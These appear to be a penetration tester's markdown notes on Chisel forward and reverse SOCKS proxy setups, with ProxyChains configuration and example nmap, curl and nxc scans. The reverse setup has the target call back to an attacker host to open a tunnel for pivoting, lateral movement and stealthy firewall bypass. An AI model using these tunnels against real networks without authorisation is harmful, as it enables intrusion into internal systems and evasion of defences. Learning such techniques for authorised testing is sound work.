 ## **Chisel Forward Proxy – Full Notes**


# 1. Chisel Forward SOCKS Proxy Setup

## 📌 Use Case
- When **you want to access** the remote machine (target) **directly via a SOCKS proxy**.
- The **target runs Chisel server**, and your **machine runs Chisel client**.
- You can only proxy into the machine **hosting the server**, not beyond it.

---

## 🛠️ Architecture

```mermaid
flowchart TD
    A["Attacker (Your Machine)"] -->|SOCKS5 Proxy| B
    B[Target Host<br>Chisel Server]
````

---

## **⚙️ Step-by-Step**
  

### **1. 🔥 On Target (Chisel Server)**

```
./chisel server --socks5 --port 8080
```

- Exposes a SOCKS5 proxy on port 8080
     

### **2. 🚀 On**  **Attacker (Chisel Client)**

```
./chisel client <target_ip>:8080 socks
```

- Sets up a local SOCKS5 proxy at 127.0.0.1:1080
    

---

## **🧩 ProxyChains Config**

```
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

---

## **✅ Example Usage**

```
proxychains4 curl http://<target_ip>
proxychains4 nmap -sT -Pn <target_ip>
```

---

## **⚠️ Limitations**

|**Issue**|**Explanation**|
|---|---|
|No internal pivoting|You can only access the **Chisel server host**. Not useful for lateral movement.|
|You need target to run server|In many cases, you won’t be able to run a server on the target due to restrictions.|




# 🧠 **Chisel Reverse SOCKS Proxy – Full Notes**

# 2. Chisel Reverse SOCKS Proxy Setup

## 📌 Use Case
- When the **target cannot be accessed directly**, but can **make outbound connections**.
- Used for **pivoting**, **bypassing NAT/firewalls**, and reaching **internal networks**.
- **Attacker runs server**, **target runs client**.


## 🛠️ Architecture

```mermaid
flowchart TD
    target["Target Machine<br>(Chisel Client R:socks)"]
    attacker["Attacker Machine<br>(Chisel Server + ProxyChains)"]
    proxy[SOCKS5 Proxy at 127.0.0.1:1080]
    internal["Internal System<br>(Behind Target)"]

    target --> attacker
    attacker --> proxy --> internal
````

---

## **⚙️ Step-by-Step**

  

### **1. 🔥 On** Attacker (Chisel Server)**

```
./chisel server --reverse
```

- Listens on port 8080 by default
    
- Accepts reverse tunnels
    

  

### **2. 🚀 On**  **Target (Chisel Client)**

```
./chisel client <attacker_ip>:8080 R:socks
```

- Reverse SOCKS tunnel back to attacker
    
- Opens 127.0.0.1:1080 SOCKS proxy on attacker
    

---

## **🧩 ProxyChains Config (on Attacker)**
```

/opt/homebrew/etc/proxychains.conf
```


```
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

---

## **✅ Example Usage**

```
proxychains4 nxc smb 10.10.10.X
proxychains4 nmap -sT -Pn 10.10.10.X
```

---

## **✅ Advantages**

| **Feature**                 | **Benefit**                                                |
| --------------------------- | ---------------------------------------------------------- |
| Works through firewalls/NAT | Target just needs outbound TCP                             |
| Enables lateral movement    | You can access internal systems behind the target          |
| Stealthier                  | Harder to detect than binding ports or exposing web shells |

---



## **✅ Key Differences Between SOCKS4 and SOCKS5**

|**Feature**|**SOCKS4**|**SOCKS5**|
|---|---|---|
|**Protocol Type**|TCP only|TCP + UDP|
|**Authentication Support**|No|Yes (username/password or GSSAPI)|
|**Remote DNS Support**|❌ DNS resolved _locally_|✅ DNS resolved _through proxy_|
|**IPv6 Support**|No|Yes|
|**Security**|No built-in security|Can support auth/encryption layers|
|**ProxyChains Compatibility**|Supported|Recommended (with proxy_dns)|
|**Typical Use Cases**|Basic proxying, older tools|Modern tools, secure tunneling|
